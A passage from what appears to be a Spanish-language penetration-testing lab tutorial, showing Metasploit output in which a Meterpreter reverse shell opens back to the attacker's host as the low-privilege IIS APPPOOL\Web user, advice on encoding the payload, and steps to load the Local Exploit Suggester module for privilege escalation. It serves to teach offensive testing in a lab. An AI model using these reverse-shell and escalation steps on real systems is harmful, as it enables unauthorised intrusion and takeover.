 ```less
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000
```

```arduino
meterpreter > getuid

Server username: IIS APPPOOL\Web
```

```css
meterpreter > 
[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
```

Si la sesión de **Meterpreter** muere con demasiada frecuencia, podemos considerar codificarla para evitar errores durante el tiempo de ejecución. Podemos escoger cualquier codificador viable, y esto mejorará nuestras probabilidades de éxito.

## Local Exploit Suggester

Como consejo, hay un módulo llamado **Local Exploit Suggester**. Usaremos este módulo ya que la shell de **Meterpreter** se ejecuta con el usuario `IIS APPPOOL\Web`, que no tiene muchos permisos. Además, el comando `sysinfo` muestra que el sistema tiene arquitectura de 32 bits (x86), lo que nos da más razones para confiar en este módulo.

### **MSF - Búsqueda del Local Exploit Suggester**

```yaml
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure
<SNIP>
```

```scss
msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options
```

**Opciones del módulo** (`post/multi/recon/local_exploit_suggester`):

| Nombre          | Configuración Actual | Requerido | Descripción                                                   |
| --------------- | -------------------- | --------- | ------------------------------------------------------------- |
| SESSION         |                      | sí        | La sesión en la que ejecutar este módulo                      |
| SHOWDESCRIPTION | false                | sí        | Muestra una descripción detallada de los exploits disponibles |
